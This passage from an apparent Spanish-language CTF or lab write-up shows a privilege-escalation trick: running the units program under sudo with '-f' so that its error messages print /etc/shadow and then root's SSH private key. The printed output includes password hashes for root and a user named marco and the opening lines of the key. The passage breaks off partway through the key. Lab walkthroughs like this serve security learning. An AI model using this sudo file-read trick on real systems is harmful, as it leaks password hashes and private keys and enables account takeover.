 ```shell
sudo /usr/bin/units -f /etc/shadow
```

Info:

```
units: unit 'root:$y$j9T$osl79yb5xA0i0zvTVWwzW/$wVaUnGg.GYsZNaKqzBkQyLN3NHiw.Cdp9gfPbLCmdd/:19629:0:99999:7:::' lacks a definition at line 1 of '/etc/shadow'
units: unit 'daemon:*:19372:0:99999:7:::' lacks a definition at line 2 of '/etc/shadow'
units: unit 'bin:*:19372:0:99999:7:::' lacks a definition at line 3 of '/etc/shadow'
units: unit 'sys:*:19372:0:99999:7:::' lacks a definition at line 4 of '/etc/shadow'
units: unit 'sync:*:19372:0:99999:7:::' lacks a definition at line 5 of '/etc/shadow'
units: unit 'games:*:19372:0:99999:7:::' lacks a definition at line 6 of '/etc/shadow'
units: unit 'man:*:19372:0:99999:7:::' lacks a definition at line 7 of '/etc/shadow'
units: unit 'lp:*:19372:0:99999:7:::' lacks a definition at line 8 of '/etc/shadow'
units: unit 'mail:*:19372:0:99999:7:::' lacks a definition at line 9 of '/etc/shadow'
units: unit 'news:*:19372:0:99999:7:::' lacks a definition at line 10 of '/etc/shadow'
units: unit 'uucp:*:19372:0:99999:7:::' lacks a definition at line 11 of '/etc/shadow'
units: unit 'proxy:*:19372:0:99999:7:::' lacks a definition at line 12 of '/etc/shadow'
units: unit 'www-data:*:19372:0:99999:7:::' lacks a definition at line 13 of '/etc/shadow'
units: unit 'backup:*:19372:0:99999:7:::' lacks a definition at line 14 of '/etc/shadow'
units: unit 'list:*:19372:0:99999:7:::' lacks a definition at line 15 of '/etc/shadow'
units: unit 'irc:*:19372:0:99999:7:::' lacks a definition at line 16 of '/etc/shadow'
units: unit 'gnats:*:19372:0:99999:7:::' lacks a definition at line 17 of '/etc/shadow'
units: unit 'nobody:*:19372:0:99999:7:::' lacks a definition at line 18 of '/etc/shadow'
units: unit '_apt:*:19372:0:99999:7:::' lacks a definition at line 19 of '/etc/shadow'
units: unit 'systemd-network:*:19372:0:99999:7:::' lacks a definition at line 20 of '/etc/shadow'
units: unit 'systemd-resolve:*:19372:0:99999:7:::' lacks a definition at line 21 of '/etc/shadow'
units: unit 'messagebus:*:19372:0:99999:7:::' lacks a definition at line 22 of '/etc/shadow'
units: unit 'systemd-timesync:*:19372:0:99999:7:::' lacks a definition at line 23 of '/etc/shadow'
units: unit 'sshd:*:19372:0:99999:7:::' lacks a definition at line 24 of '/etc/shadow'
units: unit 'systemd-coredump:!*:19372::::::' lacks a definition at line 25 of '/etc/shadow'
units: unit 'Debian-exim:!:19629:0:99999:7:::' lacks a definition at line 26 of '/etc/shadow'
units: unit 'dnsmasq:*:19629:0:99999:7:::' lacks a definition at line 27 of '/etc/shadow'
units: unit 'cockpit-ws:*:19629:0:99999:7:::' lacks a definition at line 28 of '/etc/shadow'
units: unit 'cockpit-wsinstance:*:19629:0:99999:7:::' lacks a definition at line 29 of '/etc/shadow'
units: unit 'marco:$y$j9T$BulK6se4R2EuZXvjmB/ji1$ma4QEyveuDGsDiS5tG45V88jDFh1/tQUbX6X.Xnh5K1:19629:0:99999:7:::' lacks a definition at line 30 of '/etc/shadow'
0 units, 0 prefixes, 0 nonlinear units

You have: ^C
```

Vemos que si funciona, por lo que vamos a probar a leer la `id_rsa` del usuario `root` a ver si tiene.

```shell
sudo /usr/bin/units -f /root/.ssh/id_rsa
```

Info:

```
units: unit '-----BEGIN' in units file '/root/.ssh/id_rsa' on line 1 ignored.  It contains invalid character '-'
units: unit 'MIIEowIBAAKCAQEA4zyTaEdG9ndkXzil42utXutJCywNF5siqTqPYP8e2OfNCA26' lacks a definition at line 2 of '/root/.ssh/id_rsa'
units: unit 'hLDrlYAhzXDi/zQA+2IteiKtzJBAX3F9ZLqZRkkFswpjW7OeP3uq/OkAppLRrWff' lacks a definition at line 3 of '/root/.ssh/id_rsa'
units: unit '25TX5BZAFw7le1gzCNnA5U7SPQWZMkCdC+JAxrx3pkX0MLI5hn5UTNuZkl4XCozV' lacks a definition at line 4 of '/root/.ssh/id_rsa'
units: unit 'IUmrErfyWhydNlAIGJhfMiJ8EC6+BY+/oW9XN2YoVR8a0sLz0gWHAAKRQkQMqjPn' lacks a definition at line 5 of '/root/.ssh/id_rsa'
units: unit 'A6cnfeXO6KprGq2O0ev81FhBeVqkrrrvSHvNSXrvqNL/N8fPZVD452ene3CVvQIm' lacks a definition at line 6 of '/root/.ssh/id_rsa'
```
